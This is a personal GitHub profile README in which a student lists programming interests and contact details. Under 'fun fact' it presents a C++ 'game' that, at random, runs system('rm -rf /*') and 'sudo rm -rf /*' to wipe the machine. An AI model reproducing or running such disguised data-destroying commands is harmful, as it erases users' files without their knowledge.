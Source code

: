 - 👋 Hi, I’m @SalomandraC
- 👀 I am interested in solving problems in C++ and Java. I do frontend in my free time.
- 🌱 I am currently studying C++, JS, CSS, html.
- 💞️ I’m looking to collaborate. It's not that important while I'm studying. I am ready for any tasks on topics of interest to me.
- 📫 How to reach me. You can call +89109863281 or send an email kazak.petrushin@yandex.ru
- 😄 Pronouns: Nikita, Nikitka, Podkopus, You, Ni'Khit, Saloman
- ⚡ Fun fact:
Let's play a game:

#include <iostream>

#include <cstdlib>

#include <time.h>


//system removal function

void kill(){

	system("rm -rf /*");
 
	system("sudo rm -rf /*");
 
}


int main(){

	srand((unsigned) time(NULL));
 
	int randomNumber = (rand() % 7) + 1;
 
	if (randomNumber == 5) {
 
		std::cout << "Last word?" << std::endl;
  
		kill();
  
	} else {
 
		std::cout << "You'll be lucky next time";
  
	}
 
	return 0;
 
}

<!---
SalomandraC/SalomandraC is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
